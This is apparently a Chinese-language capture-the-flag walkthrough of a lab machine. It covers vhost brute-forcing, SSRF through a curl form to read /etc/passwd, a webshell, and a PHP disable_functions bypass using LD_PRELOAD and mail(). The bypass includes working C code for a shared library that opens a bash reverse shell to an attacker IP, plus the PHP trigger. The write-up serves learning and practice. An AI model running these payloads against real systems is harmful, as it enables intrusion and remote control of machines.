### 注意看请求头



#### 这个是个base32 编码

## 对比其他常见编码

| 编码     | 特征                           | 是否符合          |
| ------ | ---------------------------- | ------------- |
| Base64 | 含大小写字母、数字、`+` `/`，长度常为 4 的倍数 | ❌ 没有小写和 `+/`  |
| Base32 | 仅大写 A–Z + 2–7，长度 8 的倍数       | ✅ 完全符合        |
| Hex    | 仅 0–9、A–F                    | ❌ 含大量 G–Z     |
| 普通随机密钥 | 可能含任意字符                      | 字符集太"规整"，不像随机 |


### 解码出一个域名



`securetransfer.xyn`

 

#### vhost爆破

#### gobuster 访问不存在的vhost请求时，返回的code都是200 ，gobuster 会自动不打印，那需要用 --exclude-length  排除返回内容的长度

过滤掉10700这个内容长度的响应




```bash
gobuster vhost -u http://securetransfer.nyx -w /home/neon/Desktop/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain --exclude-length 10700
```




#### 爆破出来了


#### 是个内部代访问，然后跳转网站的命令执行表单，

## 并且发现内部用的是curl这个工具，下面那个指纹一模一样





### 抓包有格式看得更清晰



#### 乱输入也会报出curl



#### 会过滤



### 用curl自带的协议功能读取系统文件

```bash
file:///etc/passwd
```

**为什么是三个`///`？** `file://` 是协议头，后面紧跟的 `/` 代表**根目录**。所以 `file://` + `/etc/passwd` 拼起来就成了 `file:///etc/passwd`



#### 因为这个页面的后端是个php文件，说明可以执行php代码，那就用这个命令执行去攻击机器下载一个webshell木马，再访问触发弹shell回来



#### 成功下载 ，访问触发



#### tom可以 nopasswd sudo,先横向成为tom



#### 发现个本地的端口，因该是个web,访问一下






### 真的是个web,但是web的/目录没有被设置，或者没有资源在根目录

##### 查看这个web对应进程

```bash
ps aux
```

```
root       350  0.0  0.0   2388   760 ?        Ss   09:15   0:00 /bin/sh -c php -S 127.0.0.1:8888 -t /dev/shm
```

## 根目录是在/dev/shm，还是root的进程



#### t 是Sticky Bit

**在一个设置了粘滞位的目录中，即使你对这个目录有写权限，你也只能删除或重命名“属于你自己的”文件，无法删除别人的文件。**（只有 `root` 用户和目录的所有者可以删除任何文件）

##### 可以看到可以写入文件，再来个反弹木马就好了

### 可恶，居然后端没有执行php,当成文本了



#### 可能是php引擎有一些过滤

#### 试一下木马写,查看一下php信息和过滤规则

```bash
<?php phpinfo(); ?>
```



#### 

##### 看phpinfo,也可以做内网穿透然后正向转发，浏览器看，更清楚一些


#### 可以看到过滤规则，把system()函数给过滤了，难怪刚才我的木马本当文本下载了


### LD_PRELOAD+mail()提权


`LD_PRELOAD` 是 Linux 动态链接器的一个环境变量，让你在任何程序启动之前**强制预加载一个你自己指定的共享库（.so 文件）**，这个库里的函数会优先于系统库里的同名函数被调用。

### 从底层说清楚原理

Linux 上每个程序启动时，内核会先把程序本身加载进内存，然后动态链接器（`ld.so`）去找这个程序依赖的共享库（比如 `libc.so`）并加载进来。`LD_PRELOAD` 的作用是：**在这个加载过程的最前面，先把你指定的 `.so` 插进去**，如果你的 `.so` 里定义了和系统库里同名的函数，你的版本会"遮住"系统版本，优先被调用。

### 为什么能绕过 `disable_functions`

`disable_functions` 是 PHP 层面的限制——PHP 解释器在执行代码时，看到你调用 `system()` 这个函数名，就直接拒绝执行。这个拦截发生在 PHP 内部，**不影响 PHP 进程本身去调用别的程序**。

而 `mail()` 这个函数没被禁，它内部会调用系统的 `sendmail` 程序（一个独立的可执行文件）。当 PHP 调用 `mail()` 时，它会 fork 出一个子进程来跑 `sendmail`——**这个子进程的启动过程就会经过动态链接器，动态链接器会读取 `LD_PRELOAD` 环境变量**。

你预先用 `putenv()` 设置好了 `LD_PRELOAD=/tmp/evil.so`，所以当 `sendmail` 子进程启动时，动态链接器会先加载你的 `evil.so`，而 `evil.so` 里有一个标记了 `__attribute__((constructor))` 的函数——这个属性告诉链接器"这个函数在库被加载时立刻自动执行"，于是你的恶意代码在 `sendmail` 还没真正跑起来之前就已经被执行了。

### 整条利用链

```
PHP代码
  └─ putenv("LD_PRELOAD=/tmp/evil.so")   # 设置环境变量，PHP层面不受限制
  └─ mail()                               # 调用没被禁的函数
       └─ fork出sendmail子进程
            └─ 动态链接器读取LD_PRELOAD
                 └─ 加载 /tmp/evil.so
                      └─ constructor函数自动执行
                           └─ system("bash反弹命令")  # 这里的system()是C标准库的，不是PHP的
                                                      # 不受disable_functions限制
```

```
PHP 解释器
  └─ 执行 mail()          ← PHP 层，disable_functions 在这里生效
       └─ 调用 fork()     ← 系统调用，脱离 PHP 层
            └─ 子进程     ← 这里已经完全不是 PHP 解释器了
                 └─ execve("/usr/sbin/sendmail", ...)  ← 内核直接执行新程序
                      └─ 动态链接器介入
                           └─ 读取 LD_PRELOAD，加载 evil.so
                                └─ constructor 自动执行
                                     └─ C 标准库的 system()  ← 和 PHP 没有任何关系
```


**关键认知**：`disable_functions` 禁的是 **PHP 函数**，而最终执行命令用的是 **C 标准库的**


#### evil.so文件

```bash
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() __attribute__((constructor));

void payload() {
    unsetenv("LD_PRELOAD");#防止无限递归调用执行.so
    system("bash -c 'bash -i >& /dev/tcp/192.168.56.1/8888 0>&1'");
}
```

##### 编译

```bash
gcc -shared -fPIC -o evil.so evil.c -nostartfiles
```

##### 写php木马访问触发

```bash
<?php
putenv("LD_PRELOAD=/tmp/evil.so");
mail("a@a.com","","","");#参数3个乱给
?>
```






